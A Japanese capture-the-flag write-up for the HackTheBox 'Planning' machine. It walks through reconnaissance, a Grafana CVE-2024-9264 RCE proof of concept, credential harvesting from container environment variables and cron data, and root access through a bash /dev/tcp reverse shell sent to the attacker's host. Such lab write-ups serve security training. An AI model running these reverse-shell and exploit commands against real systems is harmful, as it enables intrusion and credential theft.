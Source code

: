 # Planning WriteUps 

- **[HackTheBox_Planning](https://app.hackthebox.com/machines/Planning)**

- admin / passwords
```
admin / 0D5oT70Fq13EvB5r
```

- WorkSpeace
```
mkdir Planning && cd Planning
```

## 調査
まず、targetであるip address(```10.10.11.68```)に```nmap```もしくは```rustscan```でもいいので
開いているサービスを調べる
### 付け加え
こうするといちいちipを入力しなくてもいい
```
export ip="10.10.11.68"
# 使用するときは $ipと使う
```

### Nmap Options
- nmap cmd 
```
nmap $ip -sC -sV -sC -oN target_port.log -T4  
```

- scan結果
```
# Nmap 7.95 scan initiated Tue Jul  1 14:53:40 2025 as: /usr/lib/nmap/nmap -sS -sV -sC -oN target_port.log -T4 10.10.11.68
Nmap scan report for 10.10.11.68
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  1 14:54:05 2025 -- 1 IP address (1 host up) scanned in 24.95 seconds
```

これらから、22,80が開いていることがわかる。
また、```_http-title: Did not follow redirect to http://planning.htb/```から```/etc/hosts```に
```10.10.11.68   planning.htb```と指定する必要がある。

### http://planning.htbにて
contactなどの送信フォームなどでスクリプトを発火させることができるかと検証をしたが
特に見当たらなかったので```ffuf```でsubdomainを探すことにした

今回使用したwordlilst
- **[Seclists](https://github.com/danielmiessler/SecLists)**

gitでclone
```
git clone https://github.com/danielmiessler/SecLists.git
```
ちなみに今後様々な問題を解くうえでこういったwordlistsは```/usr/share```の下に設けるといいだろう

僕の場合、```Planning``` wordspaceに
```
cat /usr/share/Seclists/Discoverty/DNS/subdomains-* >> subdomain.txt
```
とすべてのsubdomainを```subdomain.txt```でまとめて使用した。

### ffuf Options
```
ffuf -w subdomain.txt -u http://planning.htb -c -H "Host :FUZZ.planning.htb" -o ffuf.log
```
これにより、```grafana```というsubomainが見つかる。
もちろん、```grafana.planning.htb```を```/etc/hosts```に追加しなければならないので
```10.10.11.68   planning.htb grafana.planning.htb```となる。

そこから、```http://grafana.planning.htb```にアクセスすると
```/login```ページに飛ばされる。
そこから有力な情報がないか調べた際に
Version情報があり、```Grafana v11.0.0 (83b9528bce)```と記載されてたため
そこからExploitを探索し```CVE-2024-9264```が見つかり、
Githubから**[Poc](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)**を使用し

先に```netcat```で待ち受けし、
```
nc -lvnp 1234
```

その後、以下のoptionで```poc.py```スクリプトを実行
```
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.11.68 --reverse-port 1234 
```

###　Environment
無事に入れたので
まず、このマシンがコンテナどうか```env```で調べます。
```
GF_PATHS_LOGS=/var/log/grafana
_=dockerenv
```
この情報から```Docker````のコンテナ内というのがわかりました。
また、
```
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```
これらの情報から```enzo``` Userと```RioTecRANDEntANT!``` Passwordを取得できた。

## User Flag

```
ssh -p 22 enzo@10.10.11.68
```
から```RioTecRANDEntANT!```とpasswordを入力し、
user.txtからFlagを取得
```
86c057f17190dee41a5c5295959d573d
```
### サービスチェック
他にもこのマシン上でどのサービスが開いているか調べるために
```
ss -tul
```
で調べた結果
```
127.0.0.1:8000
```
が開いており、それを自分のマシンへと転送するために
```
ssh -p22 enzo@10.10.11.68 -L 8000:127.0.0.1:8000
```
とし、
自分のマシンから```http://127.0.0.1:8000```にアクセス
すると、loginホップアップが出たので
一旦、```10.10.11.68```のsshに戻って
そこでlogin情報で必要な情報を```linpeas.sh```を使ってみる。
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
で自分のマシンにダウンロードします。
targetマシンである```10.10.11.68```に持っていきたいので
自分のマシンで以下のcmdを実行
```
python3 -m http.server 8080
```

これでHTTP Serverが開くので
targetマシン上で
```
wget http://10.10.XX.XX:8080/linpeas.sh
```
で持ってきて
```
chmod +x linpeas.sh
```
実行権限を与えて```./linpeas.sh```でscanします。

SQL File Pathから```Found /var/lib/command-not-found/commands.db```が出力され
```
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```
から、
```
root /  P4ssw0rdS0pRi0T3c
```
を発見！

試しにlogin ホップアップに入力
無事、loginできました！！

その後、新規で
```
bash -c 'exec bash -i >& /dev/tcp/10.10.16.3/1234 0>&1'
```
を保存し
先に```netcat```で待ち受けし
```
nc -lvnp 1234 
```

そして、```run now```で実装します。

そうするとshellがとれて```id```から
```
uid=0(root) gid=0(root) groups=0(root)
```
わかり、```/root/root.txt```

## Root Flag
```
0ebacefa1bfc4ad4eca56fa64ba4de02
```

## completed!!

